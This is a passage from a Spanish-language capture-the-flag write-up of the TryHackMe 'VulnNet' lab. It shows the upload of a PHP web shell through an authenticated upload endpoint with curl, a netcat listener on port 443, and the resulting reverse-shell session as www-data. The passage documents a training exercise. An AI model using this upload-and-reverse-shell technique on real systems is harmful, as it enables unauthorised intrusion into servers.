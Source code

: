 ```bash
~$> curl -s -F "file=@shell.php" -F "plupload=1" -F "name=shell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php" -u "developers:9<***CENSORED***>s"
```
```bash
{"success":"yes","file_name":"1630396316db603c","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}
```

Nos dirigimos a
```html
http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/
```
que es donde está nuestra shell

<p align="center">
<img src="/assets/images/thm-writeup-vulnnet/img14.png">
</p>

<p align="center">
<img src="/assets/images/thm-writeup-vulnnet/img15.png">
</p>

Nos ponemos en escucha con netcat por el puerto 443

```bash
~$> nc -nlvp 443
listening on [any] 443 ...
```

Abrimos nustro fichero subido a la web y obtenemos shell

```bash
connect to [10.9.242.217] from (UNKNOWN) [10.10.55.168] 49674
Linux vulnnet 4.15.0-134-generic #138-Ubuntu SMP Fri Jan 15 10:52:18 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 10:00:18 up 25 min,  0 users,  load average: 0.00, 0.01, 0.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ whoami
www-data
```
Para automatizar todo este proceso decidí crear un pequeño script en bash, que no es muy útil una vez ya llegamos hasta aquí, pero aquí está
